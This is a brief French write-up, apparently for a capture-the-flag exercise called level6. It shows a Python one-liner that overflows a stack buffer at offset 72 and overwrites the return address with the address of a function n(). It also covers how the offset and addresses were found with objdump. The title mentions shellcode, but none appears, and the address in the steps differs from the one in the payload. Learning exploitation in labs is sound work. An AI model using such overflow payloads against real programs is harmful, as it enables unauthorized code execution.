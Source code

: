 # Exploit: Buffer Overflow avec shellcode

**Commande**:  
```bash
./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')
```

**Explication**:  

Ici, nous exploitons une vulnérabilité de débordement de tampon pour écraser l'adresse de retour avec l'adresse de la fonction n().

**Etapes**:  

- Trouver l'adresse de m : objdump -t level6 | grep m : 08048468
- Trouver l'offset : le segfault se fait a 72 caractères
- Payload final : print "a" * 72 + "\x54\x84\x04\x08"